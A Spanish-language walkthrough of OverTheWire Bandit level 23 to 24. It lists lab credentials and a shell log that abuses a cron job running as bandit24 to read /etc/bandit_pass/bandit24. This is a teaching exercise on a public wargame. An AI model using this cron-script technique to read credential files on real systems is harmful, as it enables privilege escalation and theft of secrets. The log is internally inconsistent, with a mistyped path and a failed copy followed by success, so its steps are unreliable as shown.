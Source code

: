 # Bandit
# Level 23 a 24
## Objetivo
Un pograma se ejecuta automáticamentea intervalos regulares desde **cron**, el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.
**NOTA:** este nivel requiere que cree su propio primer script de shell: ¡Este es un paso muy grande y deberías star orgulloso de ti mismo cuando superes este nivel!
**NOTA 2:** tenga en cuenta que su primer script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...

## Datos de acceso
Username: bandit23
Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
Puerto: 2220
Host:  bandit.labs.overthewire.org

## Solución
 ```shell
ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit:~$ ls -la /etc/cron.d/
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  8 12:09 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ cd /var/spool/bandit24
bandit23@bandit:/var/spool/bandit24$ mkdir /tmp/password
mkdir: cannot create directory ‘/tmp/password’: File exists
bandit23@bandit:/var/spool/bandit24$ mkdir /tmp/passtmp
bandit23@bandit:/var/spool/bandit24$ cd /tmp/passtmp
bandit23@bandit:/tmp/passtmp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/pastmp/password" > mio.sh
bandit23@bandit:/tmp/passtmp$ chmod 777 mio.sh
bandit23@bandit:/tmp/passtmp$ cat mio.sh
cat /etc/bandit_pass/bandit24 >> /tmp/pastmp/password
bandit23@bandit:/tmp/passtmp$ ls -la mio.sh
-rwxrwxrwx 1 bandit23 bandit23 54 Sep 24 01:12 mio.sh
bandit23@bandit:/tmp/passtmp$ touch password
bandit23@bandit:/tmp/passtmp$ chmod 666 password
bandit23@bandit:/tmp/passtmp$ ls -la password
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 24 01:13 password
bandit23@bandit:/tmp/passtmp$ ls -la
total 332
drwxrwxr-x    2 bandit23 bandit23   4096 Sep 24 01:13 .
drwxrwx-wt 1914 root     root     327680 Sep 24 01:12 ..
-rwxrwxrwx    1 bandit23 bandit23     54 Sep 24 01:12 mio.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Sep 24 01:13 password
bandit23@bandit:/tmp/passtmp$ cp mio.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/mio.sh': Operation not permitted
bandit23@bandit:/tmp/passtmp$ date
Sat Sep 24 01:14:43 AM UTC 2022
bandit23@bandit:/tmp/passtmp$ date
Sat Sep 24 01:15:58 AM UTC 2022
bandit23@bandit:/tmp/passtmp$ ls -la
total 332
drwxrwxr-x    2 bandit23 bandit23   4096 Sep 24 01:13 .
drwxrwx-wt 1916 root     root     327680 Sep 24 01:16 ..
-rwxrwxrwx    1 bandit23 bandit23     54 Sep 24 01:12 mio.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Sep 24 01:14 password
bandit23@bandit:/tmp/passtmp$ date
Sat Sep 24 01:17:34 AM UTC 2022
bandit23@bandit:/tmp/passtmp$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```
 
## Notas adicionales
Se hace un directorio nuevo con el comando `mkdir`, tamién se crea un archivo`.sh` con un comando para que traspase a otro archivo llamado `password` la contaseña del siguiente nivel, la cual se verá haciendo `cat` al archivo `password`, pero antes de hacer el `cat` debemos usr el comando `cp` a un directorio para copiar un directorio o archivo especificado (el cual contiene la contraseña), esperamos un minuto para que se copie hacemos `cat` y ya tendremos la contraseña.

## Referencias
- [Otra solución de la web para este nivel](https://david-varghese.medium.com/overthewire-bandit-level-23-level-24-3a7efa0e3b99)
